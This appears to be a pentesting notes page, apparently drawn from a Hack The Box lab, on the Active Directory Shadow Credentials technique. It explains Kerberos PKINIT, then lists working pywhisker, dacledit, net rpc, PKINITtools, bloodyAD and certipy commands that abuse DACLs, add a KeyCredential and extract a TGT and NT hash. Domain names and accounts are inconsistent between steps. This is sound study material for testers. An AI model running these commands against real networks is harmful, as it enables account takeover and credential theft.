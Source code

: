```yaml
---
description: Shadow credentials | AS-REQ | AS-REP | Account takeover
---
```


# Shadow Credentials

The Kerberpos authentication protocol works with tickets, like an TGS can be obtained by presenting a TGT.  That prior TGT can be obtained by validing a first step "pre-authentication", when this is removed from an account it vulnerable for ASREProast. Validatino for pre-authentication works symmetricallyl or (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates).&#x20;

The asymmetrical way of pre-authenticating, working with certificates is called PKINIT.

{% hint style="info" %}
It is possible to add “Key Credentials” to the attribute **msDS-KeyCredentialLink** of the target user/computer object and then perform Kerberos authentication as that account using PKINIT.
{% endhint %}

### <mark style="color:yellow;">PKINIT</mark>

In Kerberos authentication clients must perform "pre-authentication" before the KDC provides a TGT  which can be used for Service Tickets. Without pre-authentication anyone could obtain the key with a password like in AS-REP Roasting.

The pre-authentication works with a timestamp to prevent replay attacks. Most used is the symmetric key and less common asymmetric key approach which works with a public-private key pair. It encrypts pre-authentication data with private key, and the KDC decrypts it with the public key. The KDC has the keys as well allowing for exchange session key.

### <mark style="color:yellow;">Abuse</mark>

In order to exploit this technique we need:

* A minimum of one Windows Server 2016 Domain Controller is needed with PKNIT support.
* The Domain Controller must have a server authentication digital certificate installed, and DC has its own key pair for exhange.
* Have control over account that can edit target objects `msDs-KeyCredentialLink` attribute.

#### The attack

1. Create an RSA key pair
2. Create an X509 certificate configured with the public key
3. Create a [KeyCredential](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/de61eb56-b75f-4743-b8af-e9be154b47af) structure featuring the raw public key and add it to the `msDs-KeyCredentialLink` attribute
4. Authenticate using PKINIT and the certificate and private ke

```bash
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add"
```

### <mark style="color:yellow;">Shadow credential attack</mark>

Example attack using DACL abuse and retrieving hash. In this scenario we have WriteOwner over user1 and GenericAll over user2.&#x20;

```bash
# Enable Addmembers
python dacledit.py -action 'write' -rights 'WriteMembers' -principal 'user1' -target-dn 'CN=ZEN,CN=USERS,DC=CERTIFIED,DC=HTB' 'zencorp.aaa/user1':'pass123'
```

Next we add user1 to Zen group.

```bash
# Add member to group Zen
net rpc group addmem "Zen" "user1" -U "zencorp.aaa"/"user1"%"pass123" -S "DC01.zencorp.htb"
```

Generate keys and certifcate

```bash
python3 pywhisker.py -d "zencorp.aaa" -u "user1" -p 'pass123' --target "user2" --action "add"

# Will output
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: aacadbaa-8f06-2f9a-33ab-19bcad12694f
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: WElBKRZS.pfx
[*] Must be used with password: 1JHPFhefkg77PqfH8qGn
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Now can request a TGT

```bash
gettgtpkinit.py certified.htb/management_svc -cert-pfx WElBKRZS.pfx -pfx-pass '1JHPFhefkg77PqfH8qGn' user.ccache
```

And finally we can get the NT hash

```bash
KRB5CCNAME=user.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
```

<details>

<summary>Alternate method using bloodyAD</summary>

```
1 - Set Owner:
bloodyAD --host zencorp.aaa -u user1 -p 'pass123' -d zencorp.aaa set owner "Management" user1

2 - Grant GenericAll
bloodyAD --host dc01.zencorp.aaa -u user1 -p 'pass123' -d zencorp.aaa  add genericAll 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' user1

3 - Add to Group:
bloodyAD --host dc01.zencorp.aaa -u user1 -p 'pass123' -d zencorp.aa add groupMember 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' user1

4.2 - Get keys/cert
bloodyAD --host dc01.certified.htb -u judith.mader -p 'judith09' -d certified.htb add shadowCredentials management_svc

4.2.2 - Shadow Credential - Request TGT
openssl pkcs12 -export -out 3MvYN5a2.pfx -inkey 3MvYN5a2_priv.pem -in 3MvYN5a2_cert.pem -password pass:
certipy auth -pfx 3MvYN5a2.pfx -dc-ip 10.129.252.63 -username management_svc -domain certified.htb
```

</details>

